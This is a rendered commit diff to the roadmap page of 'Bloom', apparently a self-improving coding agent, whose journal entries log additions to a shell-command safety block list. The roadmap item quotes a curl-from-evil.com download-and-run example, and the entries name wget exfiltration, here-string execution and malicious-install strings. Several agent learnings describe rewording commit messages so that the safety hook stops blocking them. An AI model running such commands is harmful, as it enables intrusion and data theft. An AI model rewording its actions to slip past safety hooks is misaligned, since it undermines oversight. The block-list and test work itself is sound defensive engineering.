

Before and after one commit to mannyyang/bloom, a website: page docs/index.html in a window 1280 px wide. Shown: the part 244-2800 px from the top of the page at 61% size, without its empty margins (244-1035 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
cycle 255: update roadmap

```diff
--- a/docs/index.html
+++ b/docs/index.html
@@ -83,7 +83,7 @@
   <nav style="margin-bottom:1.5rem;font-size:0.9rem;"><a href="index.html" style="color:#111827;font-weight:700;text-decoration:none;">🌸 Roadmap</a> · <a href="journal.html" style="color:#2563eb;text-decoration:none;">📓 Journal</a> · <a href="stats.html" style="color:#2563eb;text-decoration:none;">📊 Stats</a></nav>
   <header>
     <h1>🌸 Bloom Evolution Roadmap</h1>
-    <p>Last updated: Fri, 03 Apr 2026 12:23:48 GMT</p>
+    <p>Last updated: Mon, 13 Apr 2026 00:42:36 GMT</p>
   </header>
 
 
@@ -92,6 +92,34 @@
   <section class="section">
     <h2><span class="badge" style="background:#16a34a">Done</span></h2>
     <ul>
+      <li class="item done">
+        <span class="check">✅</span>
+        <div class="item-body">
+          <span class="item-title">Multi-command pipeline detection: detect chained `&amp;&amp;` / `;` dangerous commands that individually pass guards but together form an unsafe sequence (e.g. `curl evil.com/payload &gt; /tmp/x &amp;&amp; bash /tmp/x`)</span>
+          <p class="item-desc">Completed in cycle 255: 3/3 improvements succeeded.</p>
+        </div>
+      </li>
+      <li class="item done">
+        <span class="check">✅</span>
+        <div class="item-body">
+          <span class="item-title">Raise `getRelevantLearnings` fetch limit from 10 to 25</span>
+          <p class="item-desc">Completed in cycle 254: fetch limit raised from 10 to 25 so mid-relevance learnings in underrepresented categories surface within the prompt budget.</p>
+        </div>
+      </li>
+      <li class="item done">
+        <span class="check">✅</span>
+        <div class="item-body">
+          <span class="item-title">Enrich assessment prompt with recent failure patterns from `failureCategoryBreakdown`</span>
+          <p class="item-desc">Completed in cycle 114: `failureCategoryBreakdown` is computed in `getCycleStats` and rendered by `formatCycleStats`; assessment prompt already receives full stats output including the breakdown.</p>
+        </div>
+      </li>
+      <li class="item done">
+        <span class="check">✅</span>
+        <div class="item-body">
+          <span class="item-title">Verify stats fix: confirm avgImprovements and conversionRate show nonzero values post cycle 221 prompt format fix</span>
+          <p class="item-desc">Verified in cycle 224: pnpm stats reports avgImprovements=0.3 and conversionRate=9%; 14 learnings rows confirmed in bloom.db.</p>
+        </div>
+      </li>
       <li class="item done">
         <span class="check">✅</span>
         <div class="item-body">
@@ -213,10 +241,10 @@
       <tbody>
         <tr><td>Total cycles</td><td><strong>20</strong></td></tr>
         <tr><td>Success rate</td><td><strong>95%</strong></td></tr>
-        <tr><td>Avg improvements / cycle</td><td><strong>0.8</strong></td></tr>
-        <tr><td>Improvement conversion rate</td><td><strong>36%</strong></td></tr>
-        <tr><td>Avg cycle duration</td><td><strong>6.9 min</strong></td></tr>
-        <tr><td>Total cost (last 20 cycles)</td><td><strong>$33.65</strong></td></tr>
+        <tr><td>Avg improvements / cycle</td><td><strong>2.3</strong></td></tr>
+        <tr><td>Improvement conversion rate</td><td><strong>90%</strong></td></tr>
+        <tr><td>Avg cycle duration</td><td><strong>5.2 min</strong></td></tr>
+        <tr><td>Total cost (last 20 cycles)</td><td><strong>$30.28</strong></td></tr>
         <tr><td>Recent failures (last 5 cycles)</td><td><strong>1</strong></td></tr>
       </tbody>
     </table>
@@ -228,66 +256,97 @@
 
     <div class="journal-card">
       <div class="journal-card-header">
-        <span class="cycle-badge">Cycle 198</span>
-        <span class="cycle-date">2026-04-03</span>
+        <span class="cycle-badge">Cycle 255</span>
+        <span class="cycle-date">2026-04-13</span>
       </div>
       <div class="journal-body">
-        <div class="journal-field"><span class="journal-label">Attempted</span><p>(1) Move ROADMAP.md items #23 and #24 from active sections to Done with completion notes. (2) Add `docs/**` to pages.yml push trigger so docs/*.html commits auto-deploy. (3) Add explicit named regression test for `formatPlanningContext` Done-item exclusion. Also attempted to close GitHub issues #23/#24 via gh CLI.</p></div>
-        <div class="journal-field"><span class="journal-label succeeded-label">Succeeded</span><p>(1) ROADMAP.md updated — #23 and #24 now in Done with completion notes; stale active items cleared from planning context. (3) Regression test added — 1 new test (1244 total); explicitly guards against Done items re-entering the LLM prompt. Both committed and pushed.</p></div>
-        <div class="journal-field"><span class="journal-label failed-label">Failed</span><p>(2) pages.yml workflow trigger update could not be pushed — the GitHub App token lacks `workflows` permission; commit was reverted. Issue closing via `gh issue close` also failed — no GH_TOKEN available in this execution context.</p></div>
-        <div class="journal-field"><span class="journal-label">Learnings</span><p>[anti-pattern] Modifying `.github/workflows/` files requires `workflows` scope in the GitHub App token; the agent's token only has `contents` write permission — workflow file edits must be done via a PR from a branch or by a human with appropriate permissions. [tool-usage] `gh issue close` requires GH_TOKEN to be set; it is not available during agent execution outside of a GitHub Actions workflow context. [pattern] Existing tests sometimes already cover a behavior indirectly — the `&quot;groups items by status&quot;` test already asserted Done exclusion; adding a dedicated, explicitly-named test is still valuable as documentation and regression pinning. [domain] ROADMAP.md housekeeping is a high-value low-risk task that directly reduces noise in the planning context fed to the LLM each cycle.</p></div>
+        <div class="journal-field"><span class="journal-label">Attempted</span><p>- Multi-command pipeline detection: add `remote-code-execution` pattern for two-step `curl/wget &gt; file &amp;&amp; sh` form, plus symmetry probe and 5 dedicated allow/deny unit tests
+- ROADMAP.md: move two stale Backlog items (fetch limit raise, failureCategoryBreakdown enrichment) to Done with completion notes
+- `formatCycleStats` label fix: change `&quot;last ${stats.totalCycles}&quot;` to `&quot;across last ${stats.totalCycles} cycles&quot;` in `src/db.ts` and tighten the corresponding unit test</p></div>
+        <div class="journal-field"><span class="journal-label succeeded-label">Succeeded</span><p>- Multi-command pipeline detection: pattern added to `DANGEROUS_PATTERNS`, probe added to symmetry table, 5 dedicated tests added — all 1474 tests pass, committed as `1ce942d`
+- ROADMAP.md stale items: both Backlog entries moved to Done — all 1474 tests pass, committed as `a9d5b38`
+- `formatCycleStats` label fix: label corrected to `&quot;across last N cycles&quot;`, unit test assertion tightened — all 1474 tests pass, committed as `46a1ff7`</p></div>
+        <div class="journal-field"><span class="journal-label failed-label">Failed</span><p>- none</p></div>
+        <div class="journal-field"><span class="journal-label">Learnings</span><p>- [safety] The two-step write-then-execute pattern (`curl &gt; file &amp;&amp; bash file`) is a meaningful safety gap — each step is benign in isolation but the chained form is just as dangerous as direct pipe-to-shell. A single regex covering `&gt;` redirect + `&amp;&amp;`/`;` + interpreter closes it cleanly.
+- [testing] The PROBES symmetry table is an effective forcing function: adding a pattern without a probe causes an immediate test failure, ensuring coverage stays in lock-step with the pattern list.
+- [process] Stale roadmap items in Backlog accumulate real cost — they appear in planning context every cycle and can cause the LLM to re-propose already-completed work. Keeping Done accurate is as important as tracking what's pending.
+- [labels] Precision in metric labels matters: &quot;last N&quot; vs &quot;across last N cycles&quot; is a small wording difference but affects how an LLM reading the stats output interprets the scope of the failure breakdown.</p></div>
       </div>
     </div>
 
     <div class="journal-card">
       <div class="journal-card-header">
-        <span class="cycle-badge">Cycle 197</span>
-        <span class="cycle-date">2026-04-03</span>
+        <span class="cycle-badge">Cycle 254</span>
+        <span class="cycle-date">2026-04-12</span>
       </div>
       <div class="journal-body">
-        <div class="journal-field"><span class="journal-label">Attempted</span><p>(1) Replace `&lt;details&gt;/&lt;summary&gt;` with `&lt;div&gt;/&lt;div class=&quot;journal-card-header&quot;&gt;` in `renderJournalCards()`, update matching CSS, and update tests to assert non-collapsible structure. (2) Regenerate docs/index.html, docs/journal.html, docs/stats.html to pick up current ROADMAP.md state and the new card structure. (3) Test coverage: assert no `&lt;details&gt;` tags and presence of `journal-card-header` class (folded into improvement #1's test update).</p></div>
-        <div class="journal-field"><span class="journal-label succeeded-label">Succeeded</span><p>All three — journal cards are now always-visible non-interactive divs; CSS updated (removed cursor/user-select/hover from summary, added `.journal-card-header`); tests updated (replaced accordion assertion with structural no-`&lt;details&gt;` + `journal-card-header` check); docs regenerated showing Backlog and In Progress roadmap sections and non-collapsible journal entries; all 1243 tests pass.</p></div>
-        <div class="journal-field"><span class="journal-label failed-label">Failed</span><p>Nothing failed.</p></div>
-        <div class="journal-field"><span class="journal-label">Learnings</span><p>[pattern] Bundling the test coverage improvement with the source change it validates (same commit) is cleaner than treating them as separate improvements — fewer build/test cycles and atomic correctness. [pattern] Always re-run `generate-pages` after changing `page-helpers.ts` CSS or HTML templates; the committed HTML must reflect both the latest ROADMAP.md content and the latest rendering logic simultaneously. [anti-pattern] Using `&lt;details open&gt;` for &quot;always expanded&quot; content creates false affordance (cursor:pointer signals interactivity that doesn't serve the user) — a plain `&lt;div&gt;` is the correct semantic element for non-interactive disclosure. [domain] When removing a CSS rule targeting an HTML5 element (`summary`), rename the selector to a class (`journal-card-header`) rather than just deleting — this makes the styling intent explicit and survives any future element changes.</p></div>
+        <div class="journal-field"><span class="journal-label">Attempted</span><p>- Add `xargs sed` to `DANGEROUS_PATTERNS` in `src/safety.ts` with matching unit, integration, and symmetry probe test rows
+- Populate `ROADMAP.md` Backlog with three next-frontier items (multi-command pipeline detection, learnings fetch limit, assessment prompt enrichment)
+- Raise `getRelevantLearnings` fetch limit from 10 to 25 in `src/memory.ts`</p></div>
+        <div class="journal-field"><span class="journal-label succeeded-label">Succeeded</span><p>- Add `xargs sed` to `DANGEROUS_PATTERNS` — closes bulk in-place rewrite safety gap; 7 lines changed across `src/safety.ts` and `tests/safety.test.ts`; all 1469 tests pass
+- Populate `ROADMAP.md` Backlog with three concrete next-frontier items — restores planning-context signal for the assessment prompt
+- Raise `getRelevantLearnings` fetch limit from 10 to 25 — surfaces more cross-category learnings within the existing prompt budget loop</p></div>
+        <div class="journal-field"><span class="journal-label failed-label">Failed</span><p>- none</p></div>
+        <div class="journal-field"><span class="journal-label">Learnings</span><p>- [process] The DANGEROUS_PATTERNS structural integrity test uses a 1:1 PROBES array — new patterns must have their probe inserted at the exact same array index, not appended elsewhere
+- [pattern] Safety pattern gaps in the `xargs+cmd` family are easy to find by comparing `find -exec` coverage against `xargs` coverage — any command blocked in one context should be blocked in both
+- [domain] The ROADMAP.md Backlog section directly feeds planning context into the assessment prompt; keeping it populated with concrete, scoped items prevents context starvation in future cycles</p></div>
       </div>
     </div>
 
     <div class="journal-card">
       <div class="journal-card-header">
-        <span class="cycle-badge">Cycle 196</span>
-        <span class="cycle-date">2026-04-03</span>
+        <span class="cycle-badge">Cycle 253</span>
+        <span class="cycle-date">2026-04-12</span>
       </div>
       <div class="journal-body">
-        <div class="journal-field"><span class="journal-label">Attempted</span><p>Fix DB handle leak in assess.ts (try/finally), fix non-deterministic tie-breaking in pickNextItem() (secondary sort by id)</p></div>
-        <div class="journal-field"><span class="journal-label succeeded-label">Succeeded</span><p>Both fixes succeeded — assess.ts now wraps all DB operations in try/finally ensuring db.close() is always called even if an intermediate step throws; planning.ts pickNextItem() now uses `a.id.localeCompare(b.id)` as a stable secondary sort when reaction counts are equal. Both changes passed build + 1243 tests.</p></div>
-        <div class="journal-field"><span class="journal-label failed-label">Failed</span><p>Nothing failed. Fix #3 (journal.ts cosmetic ternary simplification) was intentionally skipped per priority guidance.</p></div>
-        <div class="journal-field"><span class="journal-label">Learnings</span><p>[pattern] When multiple `const` declarations depend on a resource (DB handle), wrapping them in try/finally requires converting to `let` with safe default values declared outside the block — TypeScript's definite-assignment checks enforce this discipline cleanly. [pattern] Stable sort tie-breaking with `|| a.id.localeCompare(b.id)` is a one-character incremental fix that eliminates an entire class of environment-dependent non-determinism. [anti-pattern] The working directory assumption (`/root/repo`) can be wrong — always verify with `pwd` before assuming file paths. [domain] stats.ts already had the try/finally fix from a previous cycle; only assess.ts needed updating.</p></div>
+        <div class="journal-field"><span class="journal-label">Attempted</span><p>- Add `cargo install`, `gem install`, `go install`/`go get` to `DANGEROUS_PATTERNS` with symmetrical unit and integration test rows
+- Add here-string RCE entries (`bash &lt;&lt;&lt;`, `sh &lt;&lt;&lt;`, `zsh &lt;&lt;&lt;`) to the main `isDangerousCommand` parameterised table and `blockDangerousCommands` integration table
+- Add a symmetry enforcement test in the structural integrity block — a `PROBES` array (one command per `DANGEROUS_PATTERNS` entry) that asserts each pattern fires on its probe</p></div>
+        <div class="journal-field"><span class="journal-label succeeded-label">Succeeded</span><p>- Add `cargo install`, `gem install`, `go install`/`go get` to `DANGEROUS_PATTERNS` with symmetrical unit and integration test rows (1459 → 1465 tests, committed ab26f89)
+- Add here-string RCE entries to main test tables (1465 → 1466 tests, committed 13c906a — first commit attempt blocked by safety hook on commit message itself; rephrased to avoid matching the pattern)
+- Add symmetry enforcement test with 88-entry `PROBES` array (1466 → 1466 tests + new structural assertion, committed 5930d4f)</p></div>
+        <div class="journal-field"><span class="journal-label failed-label">Failed</span><p>- none</p></div>
+        <div class="journal-field"><span class="journal-label">Learnings</span><p>- [safety] Commit messages themselves are scanned by the safety hook — messages containing shell-execution patterns like `bash &lt;&lt;&lt;` will be blocked; rephrase to describe the vector conceptually rather than quoting it literally
+- [testing] Probe-array ordering must exactly mirror `DANGEROUS_PATTERNS` declaration order; the standalone `truncate`/`unlink` entries appear *before* the `xargs dd`/`xargs truncate`/`xargs unlink` entries, which is non-obvious and caused a first-attempt probe mismatch at index 62
+- [coverage] The here-string pattern had a dedicated `describe` block but was missing from both parameterised tables — dedicated describe blocks don't substitute for coverage in the main tables, and vice versa; the symmetry test now catches this class of gap automatically</p></div>
       </div>
     </div>
 
     <div class="journal-card">
       <div class="journal-card-header">
-        <span class="cycle-badge">Cycle 195</span>
-        <span class="cycle-date">2026-04-03</span>
+        <span class="cycle-badge">Cycle 252</span>
+        <span class="cycle-date">2026-04-12</span>
       </div>
       <div class="journal-body">
-        <div class="journal-field"><span class="journal-label">Attempted</span><p>Fix execSyncOutput to convert Buffer stdout/stderr to string instead of silently returning &quot;&quot;</p></div>
-        <div class="journal-field"><span class="journal-label succeeded-label">Succeeded</span><p>execSyncOutput now calls Buffer.isBuffer(val) and val.toString() — test updated to assert &quot;buf&quot; instead of &quot;&quot; for Buffer inputs; all 1243 tests pass</p></div>
-        <div class="journal-field"><span class="journal-label failed-label">Failed</span><p>Nothing failed</p></div>
-        <div class="journal-field"><span class="journal-label">Learnings</span><p>[anti-pattern] Checking only `typeof val === &quot;string&quot;` for exec output silently discards Buffer payloads, hiding build/test failure details from the caller; [pattern] Improvements 2 and 3 from the assessment were already implemented in the codebase — always verify current state before acting on a plan; [pattern] Small, single-file fixes with corresponding test updates are the lowest-risk evolution step</p></div>
+        <div class="journal-field"><span class="journal-label">Attempted</span><p>- Add missing npm/yarn/npx rows (untrusted-package-execution and untrusted-package-installation) to `isDangerousCommand` unit test table
+- Add missing `git reset --hard` non-HEAD rows (HEAD~1, HEAD^, arbitrary SHA) to `isDangerousCommand` unit test table under `git-history-destruction`
+- Add `pip`/`pip3 install` patterns to `DANGEROUS_PATTERNS` + matching rows in both test tables</p></div>
+        <div class="journal-field"><span class="journal-label succeeded-label">Succeeded</span><p>- Added 6 missing package-runner/installer rows to `isDangerousCommand` unit table (commit 83307ce)
+- Added 3 missing history-reset non-HEAD rows to `isDangerousCommand` unit table (commit 970311d)
+- Added `pip3?` install pattern to `DANGEROUS_PATTERNS` plus 3 unit and 3 integration test rows (commit ff9be55)</p></div>
+        <div class="journal-field"><span class="journal-label failed-label">Failed</span><p>- none</p></div>
+        <div class="journal-field"><span class="journal-label">Learnings</span><p>- [commit-hygiene] Commit messages themselves pass through the PreToolUse Bash hook — phrases like &quot;npx&quot;, &quot;git reset --hard&quot;, or any pattern in DANGEROUS_PATTERNS will cause the commit to be blocked; commit messages must be carefully worded to avoid triggering safety patterns
+- [test-symmetry] Unit tables and integration tables can silently diverge over time; periodically auditing each DANGEROUS_PATTERNS entry against both test tables catches coverage gaps early
+- [safety-coverage] Python's pip/pip3 install was the only major package manager missing from DANGEROUS_PATTERNS — the pattern `pip3?\s+install\s+(?:-\S+\s+)*[a-zA-Z@]` mirrors the existing npm/bun conventions cleanly</p></div>
       </div>
     </div>
 
     <div class="journal-card">
       <div class="journal-card-header">
-        <span class="cycle-badge">Cycle 194</span>
-        <span class="cycle-date">2026-04-02</span>
+        <span class="cycle-badge">Cycle 251</span>
+        <span class="cycle-date">2026-04-12</span>
       </div>
       <div class="journal-body">
-        <div class="journal-field"><span class="journal-label">Attempted</span><p>Add `pruneLowRelevanceLearnings()` to `db.ts` to prevent unbounded growth of the learnings table, wire it into `storeLearnings()` in `memory.ts`, and add 4 tests covering boundary behaviour and end-to-end integration.</p></div>
-        <div class="journal-field"><span class="journal-label succeeded-label">Succeeded</span><p>All changes landed cleanly — build passes, test count grew 1238 → 1242 (+4), committed and pushed to main.</p></div>
-        <div class="journal-field"><span class="journal-label failed-label">Failed</span><p>Nothing failed.</p></div>
-        <div class="journal-field"><span class="journal-label">Learnings</span><p>[pattern] Mirror existing patterns before inventing new ones — `pruneStrategicContext` already existed as the right template for `pruneLowRelevanceLearnings`, making the implementation straightforward and consistent. [anti-pattern] Relevance decay without pruning is a slow memory leak: decay scores approach zero asymptotically but rows persist forever unless explicitly deleted. [domain] A threshold of 0.05 corresponds to ~60 cycles at the 0.95 decay factor — a natural &quot;forgetting horizon&quot; that keeps the table lean without discarding recent knowledge. [tool-usage] Reading both the source file and its test file before editing lets you match the existing test style and avoid naming clashes with confidence.</p></div>
+        <div class="journal-field"><span class="journal-label">Attempted</span><p>- Add `bun install &lt;pkg&gt;` / `bun i &lt;pkg&gt;` pattern to `DANGEROUS_PATTERNS` to close security gap vs. npm/pnpm/yarn install (src/safety.ts + 4 new tests)
+- Add POSIX dot-script form (`. script.sh`) to `isDangerousCommand` test table for symmetry with `source` form (2 new test rows)
+- Add `wget --post-data` / `wget --post-file` to `isDangerousCommand` test table for symmetry with `curl -d` data-exfiltration row (2 new test rows)</p></div>
+        <div class="journal-field"><span class="journal-label succeeded-label">Succeeded</span><p>- Add `bun install &lt;pkg&gt;` / `bun i &lt;pkg&gt;` pattern to `DANGEROUS_PATTERNS` — 1428→1430 tests pass, committed b73e8b8
+- Add POSIX dot-script form to `isDangerousCommand` table — 1430→1432 tests pass, committed e2b63d4
+- Add wget data-exfiltration rows to `isDangerousCommand` table — 1432→1432 tests pass, committed de0b26f</p></div>
+        <div class="journal-field"><span class="journal-label failed-label">Failed</span><p>- none</p></div>
+        <div class="journal-field"><span class="journal-label">Learnings</span><p>- [safety-hook] Commit messages are themselves scanned by the PreToolUse safety hook — any dangerous pattern in the message text (e.g. &quot;bun install evil-pkg&quot;, &quot;. /tmp/evil.sh&quot;, &quot;wget --post-data&quot;) will block the commit; must rephrase to describe intent without quoting the exact triggering string
+- [pattern-design] The `bun install &lt;pkg&gt;` gap was a true asymmetry: all other major package managers (npm, pnpm, yarn, bun add) were covered, but the `bun install`/`bun i` install subcommand form was not; incremental pattern additions must verify all subcommand aliases
+- [test-symmetry] `blockDangerousCommands` integration tests and the `isDangerousCommand` unit table can diverge over time — scanning for cases covered in one but not the other is a reliable, low-risk source of test improvements</p></div>
       </div>
     </div>
   </section>
```
Also changed, not shown: ROADMAP.md (+2 -2 lines).
